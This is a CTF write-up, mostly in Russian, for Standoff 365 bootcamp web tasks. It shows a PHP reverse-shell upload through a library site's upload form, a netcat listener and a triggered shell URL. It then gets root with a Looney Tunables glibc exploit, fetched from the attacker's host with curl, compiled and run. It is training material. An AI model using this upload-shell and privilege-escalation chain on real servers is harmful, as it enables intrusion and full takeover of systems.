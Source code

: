 ```yaml
---
attack: file upload
lpe: ldd
---
```


####                     web-1-1 web-1-2 library.edu.stf | Standoff 365

CTF reference: Bootcamp [(standoff365.com)](https://range.standoff365.com/battle/7/industry/27/?tab=risks)

Сontents:
Web-1-1
-Step 1: Preparing
-Step 2: Gathering information
-Step 3: Attack
Web-1-2
 

#### подготовка 

используем команду и добавляем следующие записи  
`sudo nano /etc/hosts`

```
10.124.1.231   aircraft.edu.stf
10.124.1.232   calculator.edu.stf
10.124.1.233   library.edu.stf
10.124.1.234   wp.edu.stf
10.124.1.235   www.edu.stf
10.124.1.236   gallery.edu.stf
10.124.1.237   utils.edu.stf
10.124.1.238   shop.edu.stf
10.124.1.239   tokenizer.edu.stf
10.124.1.240   bind.edu.stf
10.124.1.241   smashmusic.edu.stf
10.124.1.242   test-webserver.edu.stf
10.124.1.253   vpn.edu.stf
```

### web-1-1
#### scout
 Переходим на страницу    http://library.edu.stf/
и видим сылку на либу(нижний правый угол ), переходим на нее
 ![[Pasted image 20240907102613.png]]

![Pasted image 20240907102613](https://github.com/user-attachments/assets/6f750eb3-bc5d-472d-bdec-052f1818ee50)

 
Переходим по этой кнопке и видим следующий интерфейс 
![[Pasted image 20240907103230.png]]

 Далее логичное предположение что авторы заданиях хотят чтобы мы провернули уязвимость с манипуляцией файлов. 
 
Так зная что  это за уязвимость я сразу загуглил (это файл стандартный файл что можно использовать в таких рода заданиях)
reverse shell php
https://github.com/pentestmonkey/php-reverse-shell
![[Pasted image 20240907103507.png]]

Почему php? потому что расширение в браузере показывает какие есть языки на веб сервере
![[1_IFNZ4MZsfGWT14927hjLwg.png]]

Далее копируем файл любым удобным способом 
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Открыв его после скачивания, ознакомимся с файлом фото1
Видим что нужно поменять значения  данные значения на свой порт и айпи , так чтобы узнать какой именно у нас Ip нам нужно использовать команду `ip a ` фото 2-3


![[Pasted image 20240907103711.png]]
фото1


![[Pasted image 20240907103901.png]]
И смотрим значение tun0 Так как нам нужно значение нашего айпи в ВПН, это важно 
![[Pasted image 20240907103929.png]]
фото 2-3

В значении порт указывает тот порт что мы будем слушать через команду `rlwrap nc -lnvp YOUR PORT  `   или nc -lnvp YOUR PORT
#### Attack
send to repeater
![[Pasted image 20240907104505.png]]

Удаляем данные картники , (можно и подругому делать но я лично так)

![[Pasted image 20240907104715.png]]



![[Pasted image 20240907105000.png]]

Смотрим на вебе получилось ли закинуть файл или т.п 

Далее нужно узнать как вызвать , для этого я вызвал  картнику и посмотрел ее адрес на сайте

![[Pasted image 20240907105541.png]]
![[Pasted image 20240907105713.png]]
Узнав адрес обычный адрес картинки, мы просто меняем адрес этой картники на название нашего revershell , как видно ниже и тем самым мы запускаем данные скипт и он подключается к нам
http://library.edu.stf/wp-content/shell33.php

![[Pasted image 20240907110550.png]]

https://github.com/rapid7/metasploit-framework/issues/18429

### web-1-2 Lpe
Looney Tunables poc github
Проверка версии glibc
Выполните команду для получения версии glibc:
>ldd --version

Вывод будет примерно таким:
```
 ldd (Ubuntu GLIBC 2.35-0ubuntu3.4) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```
Проверьте, находится ли версия glibc в диапазоне от 2.34 до 2.39. Если да, то ваш сервер уязвим.
Вроде эта https://github.com/hadrian3689/looney-tunables-CVE-2023-49111

`python3 -m http.server 4646`

```
$ curl -O http://10.127.244.55:4646/exp.c

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3814  100  3814    0     0  88473      0 --:--:-- --:--:-- --:--:-- 90809
$ $ curl -O http://10.127.244.55:4646/libc.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   670  100   670    0     0  15509      0 --:--:-- --:--:-- --:--:-- 33500
$ 
$ 
$ ls
exp.c
libc.py
$ chmod +x *

$ python3 libc.py
$ ls
"
exp.c
libc.py
$ gcc exp.c -o exp
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls
"
exp
exp.c
libc.py
$ ./exp
id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

 
